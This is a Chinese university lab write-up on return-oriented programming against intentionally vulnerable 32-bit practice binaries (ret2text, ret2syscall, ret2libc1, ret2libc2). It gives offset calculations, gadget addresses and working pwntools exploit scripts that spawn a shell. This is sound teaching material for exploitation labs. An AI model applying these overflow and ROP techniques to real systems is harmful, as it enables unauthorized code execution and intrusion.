

# ROP
国科大实验二

实验环境：

* Ubuntu 22.04.2
* python 3.10.6
* pwntools 
* gdb
* pwndbg
* peda


github链接：https://github.com/z652011350/ROP

# ret2text
首先该文件的检查安全机制

利用pwntools中带有的checksec检查ret2text


可以看到：
* 架构：32位
* RELRO：部分开启
* stack canary：没有开启
* 数据段不可执行：开启
* 地址无关：没有开启

再利用IDA查看下二进制文件

首先查看下main()的伪代码


在main中可以看到gets调用，存在溢出漏洞可利用

再查看secure()


存在system('/bin/sh')，代码段可利用，地址为0x0804863A

那么，构造一个payload使得main的返回地址指向0x0804863A即可得到shell，对于该题关键便是确定offset，然后再填充上0x0804863A，即可让main()返回到system处。对于获取offset有两种思路，第一种就是直接填充一段无序垃圾数据，利用gdb查看eip被什么填充了，第二种则可以在gets处下断点，根据字符串s的地址以及ebp地址计算出main栈帧的长度

## 第一种

利用cyclic构造一段无序数据，利用gdb调试


可以看到，ebp被'caab'填充，但ebp是main()栈帧的尾巴的保留地址的头部地址，利用该数据得到offset时需要记得加个4，eip被'daab'填充，而eip则是即是main()栈帧的返回地址，该地址则可以直接得到字符串s的地址与main的返回的之间的offset，利用cyclic -l 后可以得到 daab=112

如此即可构造payload如下


运行一下试试


成功

## 第二种方案


利用gdb在gets处下断点


其中eax即是字符串s的地址，ebp则是main()栈帧的尾巴的保留地址的头部地址则可以得到

offset = ebp – s + 4

= 0xffffd2d8 – 0xffffd26c + 4

= 0x6c + 4

由此可以构造payload


运行一下

成功

# ret2syscall
首先该文件的检查安全机制

利用pwntools中带有的checksec检查ret2syscall


可以看到：
* 架构：32位
* RELRO：部分开启
* stack canary：没有开启
* 数据段不可执行：开启
* 地址无关：没有开启

再利用IDA查看下二进制文件

首先查看下main()的伪代码


在main中可以看到gets调用，存在溢出漏洞可利用

在IDA中搜索'bin/sh'


发现数据段存在'bin/sh'，地址为0x080be408

与前面一样先获取一下offset


offset = 112


由于没有system，因此需要利用代码片段拼凑出一个系统调用，在此题中我们需要执行execve('/bin/sh', NULL, NULL)
对于该系统调用需要寄存器满足以下条件

* eax=0x0b
* ebx='/bin/sh'的地址
* ecx=0
* edx=0

eax是系统调用号，后三个则是传入参数。

在满足以上条件后再执行int 0x80，程序便会执行execve('/bin/sh', NULL, NULL)，因此接下来就是找到我们期望的gadget

首先找到可以控制eax的gadget


然后我们试一下有没有可以同时控制ebx，ecx，edx的gadget


再找到能执行int的指令


由此可以构造payload
```python
from pwn import*

offset = 112

pop_eax_addr = 0x080bb196
pop_edx_ecx_ebx_addr = 0x0806eb90
bin_sh_addr = 0x080be408
int_0x80_addr = 0x08049421

proc = process("./pwn/ret2syscall/ret2syscall")

proc.sendline(b'A' * offset \
        + p32(pop_eax_addr) + p32(0x0b) \
        + p32(pop_edx_ecx_ebx_addr) + p32(0x00) + p32(0x00) + p32(bin_sh_addr) \
        + p32(int_0x80_addr))

proc.interactive()
```

运行一下


成功

# ret2libc1

首先该文件的检查安全机制

利用pwntools中带有的checksec检查ret2text


可以看到：
* 架构：32位
* RELRO：部分开启
* stack canary：没有开启
* 数据段不可执行：开启
* 地址无关：没有开启

再利用IDA查看下二进制文件

首先查看下main()的伪代码


在main中可以看到gets调用，存在溢出漏洞可利用

在IDA中搜索'bin/sh'


发现数据段存在'bin/sh'，地址为0x08048720

在IDA查看一下secure函数


发现secure函数调用了.ptl表中的system，查看一下调用地址


地址为0x08048460

与前面一样先获取一下offset


由此可以开始构造payload，将main的返回地址指向system调用，然后利用数据段中存在的'bin/sh'作为传参，但需要注意，因为system是通过call调用的，因此需要先加入一个伪造的返回地址，然后再传入参数
```python
from pwn import *

offset = 112

system_addr = 0x08048460
bin_sh_addr = 0x08048720

proc = process("./pwn/ret2libc1/ret2libc1")
proc.sendline(b'A'*offset\
               + p32(system_addr) \
                + b'AAAA' + p32(bin_sh_addr))
proc.interactive()
```
运行一下


成功


# ret2libc2

首先该文件的检查安全机制

利用pwntools中带有的checksec检查ret2text


可以看到：
* 架构：32位
* RELRO：部分开启
* stack canary：没有开启
* 数据段不可执行：开启
* 地址无关：没有开启

再利用IDA查看下二进制文件

首先查看下main()的伪代码


在main中可以看到gets调用，存在溢出漏洞可利用

在IDA查看一下secure函数


发现secure函数调用了.ptl表中的system，查看一下调用地址


地址为


在IDA中搜索'bin/sh'后，发现并未找到，因此我们需要自己写入，因此首先要找到一个具有写入权限和读取权限的位置，在gdb中使用vmmap


可以发现0x0804a000-0x0804b000位置具有读取权限和写入权限，再回到IDA中查看这一段地址


可以看到在bss段中存在一段可利用的buf2缓冲区，地址是0x0804A080，可以考虑重复利用gets()来写入我们需要的字符串，因此需要调用plt中的gets()，地址为


而gets() 函数完成后需调用 system() ，因此需要保持堆栈平衡：调用完 gets() 函数后提升堆栈，因此我们可以考虑利用pop


通过ropgadget搜索后可以看到，有许多可用，为方便起见选择一个单寄存器的pop，地址为0x0804872f


与前面一样先获取一下offset


由此可以开始构造payload

```python
from pwn import *

offset = 112

system_addr = 0x08048490
gets_addr = 0x08048460
buf2_addr = 0x0804a080
pop_addr = 0x00804872f


proc = process("./pwn/ret2libc2/ret2libc2")

proc.sendline(b'A'*offset \
        + p32(gets_addr) + p32(pop_addr)  + p32(buf2_addr) \
        + p32(system_addr) + b'AAAA' + p32(buf2_addr))
proc.sendline('/bin/sh')
proc.interactive()
```
运行一下


成功